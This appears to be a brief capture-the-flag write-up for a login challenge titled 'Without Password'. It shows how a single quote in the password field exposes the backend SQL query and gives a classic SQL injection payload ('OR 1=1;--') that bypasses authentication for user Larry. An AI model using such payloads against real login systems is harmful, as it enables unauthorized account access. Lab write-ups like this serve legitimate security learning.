 # Without Password

Another login challenge, first check for SQLI and notice that SQLI is happened in the password box by using single quote.

The response return 500 and a login SQL query:
`select password from challenge_users where userid = 'Larry' and password = '123''`

So, a small SQLI payload to get the flag:
`username_login=Larry&password_login=123'+OR+1=1;--`
